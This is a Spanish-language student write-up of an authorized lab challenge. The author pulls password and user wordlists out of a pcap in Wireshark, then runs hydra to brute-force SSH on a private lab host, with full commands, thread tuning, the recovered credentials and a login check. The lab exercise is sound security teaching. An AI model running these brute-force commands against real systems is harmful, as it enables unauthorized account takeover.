





# Reto NetworkChuck — Obtención de credenciales con Hydra

Joel Asensio

## 1. Objetivo

Conseguir el usuario y la contraseña de una máquina en la red usando wordlists con **hydra**.

## 2. Wireshark

Teníamos un archivo pcap como pista, aparte del vídeo de NetworkChuck.

En Wireshark filtramos por `ftp-data` para localizar las transferencias de archivos. Entre los paquetes se ven los `STOR password.txt` y `STOR usuarios.txt`, que son las dos wordlists que necesitamos.



Para extraer cada archivo, clic derecho sobre su paquete → **Seguir → TCP Stream**, y guardamos el contenido con el nombre correspondiente (`password.txt` y `usuarios.txt`).





---

## 3. Hydra

Para obtener el usuario y la contraseña usamos hydra. Como la profesora nos facilitó el usuario (`aladar`), hicimos fuerza bruta solo sobre la contraseña, por lo que se usa `-l` (minúscula, usuario fijo) en lugar de `-L`:

```bash
sudo hydra -l "aladar" -P password.txt 192.168.111.55 ssh
```

Esto utiliza el archivo `password.txt` como diccionario de contraseñas contra el servicio SSH de la máquina.

Al principio daba error: por defecto SSH se ataca con 16 hilos y provoca fallos de conexión. Lo recomendado es bajarlo a 4 hilos añadiendo `-t 4` al final:

```bash
sudo hydra -l "aladar" -P password.txt -t 4 192.168.111.55 ssh
```

---

## 4. Resultado

Hydra encuentra la contraseña válida en la salida:

```
[22][ssh] host: 192.168.111.55   login: aladar   password: mezga
```



Credenciales obtenidas:

- **Usuario:** `aladar`
- **Contraseña:** `mezga`

---

## 5. Verificación

Comprobamos que las credenciales funcionan conectándonos por SSH a la máquina:

```bash
ssh aladar@192.168.111.55
```

Tras aceptar el fingerprint e introducir la contraseña, accedemos a la máquina Debian. Como prueba de acceso con permisos de escritura, creamos un archivo dentro de `Documents/SEGiAD/`:

```bash
touch joel_asensio
```



---

## 6. Conclusión

El flujo completo del reto fue: a partir del archivo pcap, extrajimos las wordlists (`password.txt` y `usuarios.txt`) siguiendo el TCP Stream en Wireshark, realizamos un ataque de fuerza bruta con hydra sobre SSH y obtuvimos la contraseña del usuario `aladar`. Finalmente verificamos el acceso conectándonos por SSH y comprobando permisos de escritura en la máquina.

El principal problema fue el error de conexión de hydra con los 16 hilos por defecto de SSH, resuelto limitando a 4 hilos con `-t 4`. Todo el proceso se realizó en un entorno de laboratorio autorizado.

